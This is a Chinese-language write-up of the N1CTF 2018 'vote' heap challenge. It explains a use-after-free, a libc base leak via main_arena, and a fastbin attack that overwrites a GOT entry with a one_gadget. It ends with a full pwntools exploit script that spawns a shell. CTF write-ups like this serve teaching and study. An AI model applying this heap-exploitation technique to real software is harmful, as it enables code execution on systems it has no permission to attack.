






# 标题

> n1ctf-2018 : vote

## **原理**


取消功能中存在UAF。当取消给定的堆块时，相应的ptr_list [i]将不会设置为零。

## **目的**


在这个挑战中，我们需要泄漏堆的基地址和libc的基地址。

涉及到一个fastbin利用方法。


## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**



即使堆块被free掉，依旧有指针指向这个堆块，我们可以通过 vote 对堆块的内容进行改变，典型的UAF。

网上有几个比较不错的 writeup，思路请参考文末的链接，这里我对几个比较难理解的点进行讲解。

- 首先是libc基地址的计算，exp中是这样计算的：

`libc_addr = leak - 88 - 0x10 - libc.symbols['__malloc_hook'] `

这里涉及到一个知识点：malloc_hook 与 main_arena+88 之间的偏移总是为 `0x10` 所以我们泄漏 main_arena+88 的地址之后，就可以通过 malloc_hook的偏移来计算出libc的基地址。

也可以通过这样的方式来计算：

`libc_addr = int(main_arena+88)-0x3c4b78`

不过这样的话，得先知道 libc 的版本（可以通过malloc_hook的偏移判断出来）。



libc基地址为：0x00007f1d77c89000



main_arena+88为：0x7f1d7804db78

所以两者之间的偏移为：



- 第二个不大容易明白的点为，什么叫做构造伪堆。

exp如下：

```
payload = p64(0x60)+p64(got_pthread) +p64(0xabcdef)

create(0x40,payload)
create(0x40,"DDDD")

cancel(2)
cancel(3)
```

释放了堆块 2、3之后，形成了fastbin链：






当 add(3,24)之后，就指向了我们构造的伪堆。

- 还有一个问题就是为什么选择在 0x601ffa 构造另一个伪堆。
  这是因为如果直接用pthread的地址做伪堆的地址话，会由于size检查导致分配失败。

在这里，是利用了fasbin attack。因为fasbin单向链表的结构，通过修改fd的内容，来控制分配到的堆块所在的空间。


完整exp：

```python

#!/usr/bin/env python
from pwn import*
import time

local =1

if local:
    p = process('./vote')

else:
    p = remote("127.0.0.1",8080)

#context.log_level = 'debug'

def create(num,name):
    p.recvuntil("Action:")
    p.sendline("0")
    p.recvuntil("Please enter the name's size:")
    p.sendline(str(num))
    p.recvuntil("Please enter the name: ")
    p.sendline(name)

def show(num):
    p.recvuntil("Action:")
    p.sendline("1")
    p.recvuntil("Please enter the index:")
    p.sendline(str(num))

def vote(num):
    p.recvuntil("Action:")
    p.sendline("2")
    p.recvuntil("Please enter the index:")
    p.sendline(str(num))

def cancel(num):
    p.recvuntil("Action:")
    p.sendline("4")
    p.recvuntil("Please enter the index:")
    p.sendline(str(num))
def result():
    p.recvuntil("Action:")
    p.sendline("3")

def add(num,i):
    for i in range(0,i):
        vote(str(num))

#---------------leak addr----------------------------

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

create(0x80,"AAAA")
create(0x80,"BBBB")
cancel(0)

show(0)

p.recvuntil("count:")

leak = int(p.recvline()[:-1])

#libc_addr = int(main_arena+88)-0x3c4b78
libc_addr = leak - 88 - 0x10 - libc.symbols['__malloc_hook']  
one_gadget = libc_addr + 0x4526a

print "libc_addr=",hex(libc_addr)
print "one_gadget=",hex(one_gadget)

#---------------fake heap----------------------------

got_pthread = 0x601ffa #0x602020
print "got_pthread:",hex(got_pthread)

payload = p64(0x60)+p64(got_pthread) +p64(0xabcdef)

create(0x40,payload)
create(0x40,"DDDD")

cancel(2)
cancel(3)

add(3,24)
create(0x40,"FF")

#---------------shellcode----------------------------

write = libc_addr +libc.symbols['write']
strlen = libc_addr +libc.symbols['strlen']
shellcode =  "AAAAAA"+ p64(one_gadget) + p64(write) + p64(strlen)

create(0x40,"GG")
create(0x40,shellcode)
vote(0)
p.interactive()
```
## **参考阅读**

[N1CTF 赛题vote分析](https://www.cnblogs.com/Yable/p/8824590.html#commentform)

[N1CTF 2018 && 线程堆知识源代码分析](http://p4nda.top/2018/03/15/n1ctf2018/)